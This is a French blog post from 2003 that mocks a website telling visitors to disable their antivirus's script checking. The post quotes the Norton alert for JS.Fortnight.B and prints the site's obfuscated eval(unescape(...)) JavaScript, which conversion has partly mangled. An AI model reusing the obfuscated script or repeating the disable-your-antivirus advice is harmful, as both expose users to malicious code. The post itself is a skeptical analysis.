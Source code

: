 ```yaml
---
title: Elle est bien bonne
id: 52
categories:
  - Humeur
date: 2003-11-27 19:44:06
tags:
---
```


Voici ce qu'on peut lire sur la page d'acceuil de ce [site](http://www.ifrance.com/chlan/).
 > ATTENTION! Si vous disposez d'un anti-virus, il est possible que celui-ci vous dise que les pages de ce site en contiennent, il n'en est rien!!!!
>
>  En effet, les différentes pages contiennent des scripts de copyright, mais certains anti-virus les confondent avec des virus. Pour régler cela, il vous suffit de modifier les paramètres de votre logiciel de protection, en désactivant l'option nécessaire (par exemple "activer la vérification des scripts")

Incroyable n'est-ce pas ?

Et effectivement Norton affiche le message suivant lorsqu'on tente de naviguer sur ce site:
 > Type d'analyse :  Analyse Protection en temps réel
>
>  Evénement :  Virus détecté !
>
>  Nom du virus :JS.Fortnight.B
>
>  Fichier :  C:\Documents and Settings\XXXXX\Local Settings\Temporary Internet Files\Content.IE5\CNDBMYNT\chlan[1](1).htm
>
>  Emplacement :  Quarantaine
>
>  Ordinateur :  XXXXXX
>
>  Utilisateur :  XXXXXX
>
>  Opération :  Nettoyer  - échec : Quarantaine - réussite : Accès refusé
>
>  Date de détection : Thu Nov 27 16:29:26 2003

Quand on examine le code source on trouve un JavaScript assez étrange:
 > &lt;script LANGUAGE="JavaScript"&gt;
>
> dddss="=tdsjqu mbohvbhf&gt;KbwbTdsjqu?=!..gvodujpo ofn(*|sfuvso usvf<a name="&lt;xjoepx/pofssps &gt;G#&lt;wbs u85&lt;em&gt;epdvnfou/mbzfst&lt;eb6#bmm&lt;hf3#hfuFmf.#CzJe&lt;xt&gt;'$tjefcbs{nth&gt;.#c:8&lt;e$qbttxepl(* |u#xsjuf(voftdbqf(%1E%1B)#%4D%3Gcpez%4F0#opgsbnft4#G#iunm6#**&lt;" id="&lt;xjoepx/pofssps &gt;G#&lt;wbs u85&lt;em&gt;epdvnfou/mbzfst&lt;eb6#bmm&lt;hf3#hfuFmf.#CzJe&lt;xt&gt;'$tjefcbs{nth&gt;.#c:8&lt;e$qbttxepl(* |u#xsjuf(voftdbqf(%1E%1B)#%4D%3Gcpez%4F0#opgsbnft4#G#iunm6#**&lt;"> </a>&lt;jg (j$Fwfou*B$dbquvsf;#t(*#/NPVTFVQb#g&amp;pdpoufyunfov(*|fO#dbodfmCvccmf &gt;''&lt;?#;'Wbmv&gt;#gbmt?#Q'2#<a name=",$sjhiudmjdl(f,$(%9#f/xijdi&gt;&gt;3}}/#4* ($fmtfW#^$cvuupo&gt;&gt;3 }} 6# &gt;&gt; 4*  J%&gt;H%mvf&gt;F%  " id=",$sjhiudmjdl(f,$(%9#f/xijdi&gt;&gt;3}}/#4* ($fmtfW#^$cvuupo&gt;&gt;3 }} 6# &gt;&gt; 4*  J%&gt;H%mvf&gt;F%  "> </a><a name="z&amp;poR&amp;&gt;`&amp;&lt; K#npvtfepxo&gt;#&amp;H#&lt;&amp;j(*|jg(eb*G)potfmfdutubsu&gt;O#X+a$" id="z&amp;poR&amp;&gt;`&amp;&lt; K#npvtfepxo&gt;#&amp;H#&lt;&amp;j(*|jg(eb*G)potfmfdutubsu&gt;O#X+a$"> </a>&lt;tfuUjnfpvu(l#-311*&lt;~<a name="&lt;1#R*ot:(*|)+ubuvt &gt; /e#I#-2e#&lt;0#e#pg(j$mpdb;#f+\\$" id="&lt;1#R*ot:(*|)+ubuvt &gt; /e#I#-2e#&lt;0#e#pg(j$mpdb;#f+\\$"> </a>&lt;jg?(A#/qspupdpm/joefyPg(gjmf*!&gt;.2e%c:8!&gt;usvf*|opg(*~<a name="&lt;qbttxepl(*&lt;=0TDSJQU?"; <p>l='\0\t 
>  !"#$%&amp;\'()*+,-./0123456789:;&lt;=&gt;?@ABCDEFGHIJKLMNOPQRSTUVWXYZ</a>[\134](\134)^_`abcdefghijklmnopqrstuvwxyz{|}" id="&lt;qbttxepl(*&lt;=0TDSJQU?";
>
> l='\0\t >  !"#$%&amp;\'()*+,-./0123456789:;&lt;=&gt;?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\134](\134)^_`abcdefghijklmnopqrstuvwxyz{|}"> '; eval(unescape("%73%3D%27%27%3B%0D%0A%66%6F%72%20%28%69%3D%30%3B%69%3C%64%64%64%73%73%2E%6C%65%6E%67%74%68%3B%69%2B%2B%29%7B%0D%0A%61%3D%6C%2E%69%6E%64%65%78%4F%66%28%64%64%64%73%73%2E%63%68%61%72%41%74%28%69%29%29%3B%0D%0A%69%66%20%28%61%3D%3D%31%29%20%61%3D%39%3B%0D%0A%69%66%20%28%61%3D%3D%32%29%20%61%3D%31%30%3B%0D%0A%69%66%20%28%61%3D%3D%33%29%20%61%3D%31%33%3B%0D%0A%69%66%20%28%61%3D%3D%34%29%20%61%3D%33%34%3B%0D%0A%69%66%20%28%61%3C%3D%33%31%20%26%20%61%3E%3D%31%34%29%7B%0D%0A%6F%66%66%3D%73%2E%6C%65%6E%67%74%68%2D%28%6C%2E%69%6E%64%65%78%4F%66%28%64%64%64%73%73%2E%63%68%61%72%41%74%28%2B%2B%69%29%29%2D%33%36%2B%39%30%2A%28%6C%2E%69%6E%64%65%78%4F%66%28%64%64%64%73%73%2E%63%68%61%72%41%74%28%2B%2B%69%29%29%2D%33%35%29%29%2D%31%3B%0D%0A%6C%70%3D%6F%66%66%2B%61%2D%31%34%2B%34%3B%0D%0A%73%3D%73%2B%73%2E%73%75%62%73%74%72%69%6E%67%28%6F%66%66%2C%6C%70%29%3B%7D%0D%0A%65%6C%73%65%20%7B%20%69%66%20%28%61%3E%3D%34%31%29%20%61%3D%61%2D%31%3B%20%73%3D%73%2B%6C%2E%63%68%61%72%41%74%28%61%29%3B%7D%7D%3B%64%6F%63%75%6D%65%6E%74%2E%77%72%69%74%65%28%73%29%3B%0D%0A"));
>
> > <p>
> >
> > &lt;/SCRIPT&gt;
> >
> > Pourquoi avoir offusqué celui-ci et pas les autres ? Etrangement c'est justement celui qui fait tiquer l'antivirus...</p>
